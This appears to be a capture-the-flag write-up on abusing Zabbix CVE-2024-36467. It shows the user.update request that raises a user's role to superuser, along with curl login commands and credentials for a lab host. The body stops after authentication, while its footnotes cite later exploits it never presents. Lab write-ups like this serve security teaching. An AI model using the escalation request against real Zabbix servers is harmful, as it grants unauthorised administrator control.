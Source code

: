 ## CVE-2024-36467

The **CVE-2024-36467** [^CVE-2024-36467] declares that it is possible for any user having valid account on zabbix and is allowed to reach API endpoints may change their zabbix role up to “Zabbix administrator” role that is actually a “superuser” for the application defined in the documentation. Just need to have  access to the `user.update` API.

Searching the zabbix API call’s structure, found following information ([^user-update]) that in partucal, the interesting for us request has the following body:

```json
{
    "jsonrpc": "2.0",
    "method": "user.update",
    "params": {
        "userid": "<your-users-id>",
        "roleid": "<role-id-you-need>"
    },
    "id": 1
}
``` 
{: .nolineno }

But, before sending this request directly, let’s authenticate to the API. 

According to the “Authentication” page, we need the following request to be sent initially, grab token, and use it for the authorization:

```bash
curl --request POST \
         --url 'https://example.com/zabbix/api_jsonrpc.php' \
         --header 'Content-Type: application/json-rpc' \
         --data '{"jsonrpc":"2.0","method":"user.login","params":{"username":"Admin","password":"zabbix"},"id":1}'
The expected response:
{
    "jsonrpc": "2.0",
    "result": "<token>",
    "id": 1
} 
```
{: .nolineno }

Authorized requests have this token in “Authorization: Bearer <token>” header like following:

```bash
curl --request POST \
  --url 'https://example.com/zabbix/api_jsonrpc.php' \
  --header 'Authorization: Bearer 0424bd59b807674191e7d77572075f33'
```

Having this puzzle together we have a successful authentication:

```bash
curl --request POST \
         --url 'http://unrested.htb/zabbix/api_jsonrpc.php' \
         --header 'Content-Type: application/json-rpc' \
         --data '{"jsonrpc":"2.0","method":"user.login","params":\
         {"username":"matthew","password":"changedpass"},"id":1}'

Response:
{"jsonrpc":"2.0","result":"399d8bffa6f5dafdf18c1c15978a092b","id":1}      
```


[^CVE-2024-36467]: [CVE-2024-36467 / ZBX-25614](https://support.zabbix.com/browse/ZBX-25614), 
[^privesc-poc]: PoC for CVE-2024-36467 / ZBX-25614
[^user-update]: Documentation on [user.update](https://www.zabbix.com/documentation/current/en/manual/api/reference/user/update)
[^CUser-checkHimself]: [function checkHimself](https://github.com/zabbix/zabbix/blob/7.0.0/ui/include/classes/api/services/CUser.php#L1109C2-L1120C9) 
[^usrgrpid]: [Documentation on usergroup object](https://www.zabbix.com/documentation/current/en/manual/api/reference/usergroup/object)
[^CVE-2024-42327]: [CVE-2024-42327 / ZBX-25623](https://support.zabbix.com/browse/ZBX-25623), [POC](https://github.com/compr00t/CVE-2024-42327/tree/main)
[^PoC-sql-my]: Proof Of Concept for CVE-2024-42327 / ZBX-25623 by mrlsecurity.
[^SQL-addRelatedObjects]: Github lines [3041-3051](https://github.com/zabbix/zabbix/blob/49955f1fb5c9168a8a24b053f7ade6b3d903143c/ui/include/classes/api/services/CUser.php#L3041C1-L3051C6)
[^user-get]: Call for addRelatedObjects in [user.get](https://github.com/zabbix/zabbix/blob/49955f1fb5c9168a8a24b053f7ade6b3d903143c/ui/include/classes/api/services/CUser.php#L234)
[^system-run]: Documentation on Zabbix [system.run](https://www.zabbix.com/documentation/current/en/manual/config/items/itemtypes/zabbix_agent#system.run)
[^hostid]: Documentation on Zabbix [hostid and interfaceid](https://www.zabbix.com/documentation/7.2/en/manual/api/reference/host/get?hl=host.get)
[^nmap-doc]: nmap [documentation](https://nmap.org/book/data-files-replacing-data-files.html)